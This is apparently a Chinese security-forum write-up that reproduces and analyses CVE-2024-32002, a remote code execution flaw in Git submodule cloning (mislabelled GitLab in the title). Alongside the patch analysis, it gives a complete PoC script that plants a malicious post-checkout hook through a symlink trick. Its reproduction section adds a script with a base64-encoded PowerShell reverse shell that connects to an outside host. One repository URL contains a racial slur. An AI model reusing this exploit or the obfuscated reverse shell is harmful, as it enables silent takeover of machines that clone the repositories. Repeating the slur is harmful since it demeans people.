










# 记一次对Gitlab（CVE-2024-32002 )命令执行漏洞复现和分析-先知社区

> **来源**: https://xz.aliyun.com/news/16571  
> **文章ID**: 16571

---

# CVE-2024-32002 RCE

## 一、漏洞概述

此存储库包含 CVE-2024-32002 的概念验证 (PoC)，这是 Git 子模块中的远程代码执行 (RCE) 漏洞。该漏洞演示了如何通过 Git 存储库的递归克隆触发恶意负载。

​

## 1.1 受影响的版本

之前：

2.45.1

2.44.1

2.43.4

2.42.2

2.41.1

2.40.2

2.39.4

## 1.2 漏洞利用要求

* 该软件必须配置为支持符号链接。
* 操作系统必须不区分大小写。

## 1.3 存储库设置

在运行 PoC 之前，请在远程 Git 服务器上创建以下存储库或根据需要随意更改名称：

* `hulk.git`
* `submod.git`
* `smash.git`

​

# 二、漏洞详情

当存储库以递归方式克隆时，该漏洞利用 Git 子模块在目标系统上执行有效负载。此 PoC 已在 macOS 上进行了测试。

## 2.1 定义存储库路径

```
HULK_REPO="git@github.com:safebuffer/hulk.git"
pullme_REPO="git@github.com:safebuffer/submod.git"

# Final Exploit Repo
SMASH_REPO="git@github.com:safebuffer/smash.git"
```

## 2.2 触发漏洞

要触发漏洞，运行 poc.sh 脚本，然后执行以下命令：

git clone --recursive $SMASH\_REPO

Payload：

此 PoC 中的默认有效负载会打开 macOS 上的计算器应用程序。您可以将其更改为您选择的任何有效负载。

/System/Applications/Calculator.app/Contents/MacOS/Calculator

​

## 2.3 POC编写

```
#!/bin/bash

# Define repository paths
HULK_REPO="git@github.com:safebuffer/hulk.git"
pullme_REPO="git@github.com:safebuffer/submod.git"

# Final Exploit Repo
SMASH_REPO="git@github.com:safebuffer/smash.git"

# Function to clone and set up the hook repository
setup_HULK_REPO() {
	# Remove existing directories
	rm -rf hulk*

	git clone "$HULK_REPO" hulk

	# Navigate to the hook repository
	cd hulk/ || exit

	# Create necessary directories and set up the post-checkout hook
	mkdir -p y/hooks
	cp ./.git/hooks/post-update.sample y/hooks/post-checkout # so u won't get the hook ignored
	echo "/System/Applications/Calculator.app/Contents/MacOS/Calculator" > y/hooks/post-checkout

	# Add and commit the post-checkout hook
	git add y/hooks/post-checkout
	git update-index --chmod=+x y/hooks/post-checkout
	git commit -m "Add executable post-checkout hook"

	# Push changes to the remote repository
	git push

	# Return to the parent directory
	cd ..
}

# Function to clone and set up the pullme repository with a submodule
setup_pullme_repo() {
	# Remove existing directories
	rm -rf pullme*

	# Clone the pullme repository
	git clone "$pullme_REPO" pullme

	# Navigate to the pullme repository
	cd pullme || exit

	# Clean up previous directories and remove submodule
	rm -rf a* A*
	git rm -r A/modules/x

	# Add the hook repository as a submodule
	git submodule add --name x/y "$HULK_REPO" A/modules/x
	git commit -m "Add submodule"

	# Create a symlink to the .git directory
	# Print the string ".git" to a file named dotgit.txt
	printf .git > dotgit.txt

	# Generate a hash for the contents of dotgit.txt and store it in dot-git.hash
	# The `-w` option writes the object to the object database, and the hash is output
	git hash-object -w --stdin < dotgit.txt > dot-git.hash

	# Create an index info line for a symbolic link with the mode 120000
	# The line is formatted as: "120000 <hash> 0\ta"
	# 120000 indicates a symbolic link, <hash> is the content hash, and 'a' is the path in the index
	printf "120000 %s 0\ta
" "$(cat dot-git.hash)" > index.info

	# Update the git index with the information from index.info
	# This effectively stages the symbolic link for the next commit
	git update-index --index-info < index.info

	# Commit the staged changes with a message "Add symlink"
	git commit -m "Add symlink"
	# Push changes to the remote repository
	git push

	# Return to the parent directory
	cd ..
}

# Function to clone the smash repository with submodules
show_command() {
  # Define color codes
  RED='\033[0;31m'
  GREEN='\033[0;32m'
  YELLOW='\033[0;33m'
  BLUE='\033[0;34m'
  NC='\033[0m' # No Color

  # Output the command with colors
  echo -e "${GREEN}Trigger the exploit with ${NC}:
"
  echo -e "${YELLOW}git clone --recursive ${BLUE}$SMASH_REPO ${RED}GITRCE${NC}"
}

# Execute functions
setup_HULK_REPO
setup_pullme_repo
show_command
```

## 2.4 漏洞修复：

主要解决方案是将Git 软件紧急更新为修复此漏洞的新修补版本之一：

* 2.45.1
* 2.44.1
* 2.43.4
* 2.42.2
* 2.41.1
* 2.40.2
* 2.39.4

此外，你可以通过禁用 Git 的符号链接来缓解此漏洞：

```
git config --global core.symlinks false
```

​

# 三、漏洞原理分析

## 3.1 Git 仓库

当使用 `git init` 或 `git clone` 命令创建或克隆 Git 仓库时，会在工作树的根目录下生成一个.git 目录。.git 目录的初始结构如下：

​Git 钩子是可执行脚本，位于.git/hooks 目录或.git/modules/module\_type/module\_name/hooks 目录中。当 Git 仓库内发生特定事件时，钩子会自动触发。

当 hooks 目录中的文件没有.sample 后缀时，该文件中的命令将在文件名中包含的特定 Git 操作（如 pre-commit、post-commit 和 post-checkout）之前或之后执行。

​

## 3.2 Git 子模块

Git 子模块是 Git 仓库内的一个记录，它引用外部仓库中的特定提交。当向仓库添加子模块时，会在.gitmodules 目录中创建一个新文件，其中包含子模块的 URL 与其本地目录之间的映射元数据。当一个仓库包含多个子模块时，.gitmodules 文件将为每个子模块包含一个条目。

## 3.3 符号链接（Symlinks）

符号链接，也称为 symlink 或软链接，是一个通过指定路径指向另一个文件或目录（称为 “目标”）的文件。如果删除符号链接，其目标不受影响。

Git 中的符号链接是作为一个带有元数据的文件创建的，使其能够作为对另一个文件的引用或快捷方式。符号链接可用于创建对文件的多个引用，而无需复制其内容。

Git 将符号链接视为存储其所引用文件或目录路径的特殊文件。

当克隆或检出包含符号链接的仓库或分支时，Git 中存储的符号链接会转换为本地文件系统中的符号链接。

## 3.4 关键补丁分析

更新的文件之一是 submodule--helper.c 文件，其中包含处理 Git 子模块克隆的代码。补丁版本中的新提交包括以下两项：



* 添加 dir\_contains\_only\_dotgit 函数，以确保子模块目录不包含任何.git 文件或目录。
* 对 clone\_submodule () 函数进行了更改，添加了一个条件来检查子模块目录是否存在且为空。如果目录不为空，克隆过程将中止。

新提交中的第二项更新是在 t/t7406-submodule-update.sh 文件中，添加了一个测试脚本来验证安全漏洞是否已解决。



关键代码：

```
test_expect_success CASE_INSENSITIVE_FS,SYMLINKS \
	'submodule paths must not follow symlinks' '
	# This is only needed because we want to run this in a self-contained
	# test without having to spin up an HTTP server; However, it would not
	# be needed in a real-world scenario where the submodule is simply
	# hosted on a public site.
	test_config_global protocol.file.allow always &&
	# Make sure that Git tries to use symlinks on Windows
	test_config_global core.symlinks true &&
	tell_tale_path="$PWD/tell.tale" &&
	git init hook &&
	(
		cd hook &&
		mkdir -p y/hooks &&
		write_script y/hooks/post-checkout <<-EOF &&
		echo HOOK-RUN >&2
		echo hook-run >"$tell_tale_path"
		EOF
		git add y/hooks/post-checkout &&
		test_tick &&
		git commit -m post-checkout
	) &&
	hook_repo_path="$(pwd)/hook" &&
	git init captain &&
	(
		cd captain &&
		git submodule add --name x/y "$hook_repo_path" A/modules/x &&
		test_tick &&
		git commit -m add-submodule &&
		printf .git >dotgit.txt &&
		git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
		printf "120000 %s 0\ta
" "$(cat dot-git.hash)" >index.info &&
		git update-index --index-info <index.info &&
		test_tick &&
		git commit -m add-symlink
	) &&
	test_path_is_missing "$tell_tale_path" &&
	test_must_fail git clone --recursive captain hooked 2>err &&
	grep "directory not empty" err &&
	test_path_is_missing "$tell_tale_path"
'

```

## 3.5 利用攻击流程分析

* Git 首先从主仓库下载文件和目录。
* 它利用符号链接文件中指定的定义在本地文件系统中重新创建相应的符号链接。
* 如果符号链接指向现有文件，则该符号链接将起作用；否则，符号链接将保持无效，直到目标恢复。
* 如果使用 --recursive 选项克隆仓库，Git 会克隆子模块（外部仓库）并将它们放置在.gitmodules 文件中指示的目录路径中。
* 如果符号链接是子模块路径的一部分（例如，util/module/test，其中 util 是指向另一个目录（如 symlink\_folder）的符号链接），Git 会将子模块内容存储在符号链接实际引用的目录中（例如，symlink\_folder/module/test），同时允许通过原始符号链接路径进行访问。


## 3.6 利用过程分析

* 创建一个包含 post-checkout 钩子的仓库。
* 创建另一个包含子模块的仓库，位于 A/modules/x 路径。新子模块引用先前创建的仓库。
* 创建一个名为 a 的符号链接，指向 Git 索引中的.git 文件夹。  
  当用户使用 --recursive 选项克隆在前一步中创建的恶意仓库时，post-checkout 钩子中的恶意脚本将被触发，从而使攻击者能够入侵用户设备。

​这种远程代码执行的发生是因为主仓库在克隆时检测到一个名为 a 的指向.git 目录的符号链接。启用递归模式后，子模块也会被拉入克隆的仓库。此仓库包含一个 hooks 文件夹，其中包含 post-checkout 钩子脚本，其本地目录位于 A/modules/x。

​由于 a 指向.git 目录且文件系统不区分大小写，A 被解释为等同于 a。Git 会被误导将 post-checkout 钩子脚本写入.git/modules/query/fast/hooks/ 目录。如果在.git/modules/{module\_type}/{module\_name}/hooks 文件夹中找到 post-checkout 钩子脚本，当使用 --recursive 选项克隆主仓库时它将被触发。因此，攻击者可以通过执行远程代码成功入侵用户设备。



# 四、漏洞复现：

### 4.1 使用脚本复现：

首先去创建一个用户。

## image.png

创建2个库，一个为hook

## image.png

另一个为captain。



接着修改脚本。

```
#!/bin/bash

git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

rm -rf repo1
rm -rf repo2

git clone http://gitea.XX.xx:3000/xxxxxxxxx/repo1.git
cd repo1
mkdir -p y/hooks
cat > y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgAiACwAMQA0ADUAMQA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
EOF
chmod +x y/hooks/post-checkout
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
cd ..

git clone http://gitea.XX.XX:3000/celesian_nlte_cheating_niggers/repo2.git
cd repo2
git submodule add --name x/y "http://gitea.XX.XX:3000/xxxxxxxxxx/repo1.git" A/modules/x
git commit -m "add-submodule"
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta
" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
git push
```



执行之后，然后提交，便给获取shell。


### 4.2 手动攻击

创建2个库。



然后在脚本中，它引用了本地存储库，但后来将其编辑为远程存储库。我将直接转到远程引用。

现在我将创建符号链接：





接着写入powershell反弹shell命令，然后反弹shell。



最后git push，然后提交之后就可获取shell。



REF:

```
https://www.ithome.com.tw/tags/cve-2024-32002
https://github.com/safebuffer/CVE-2024-32002

```
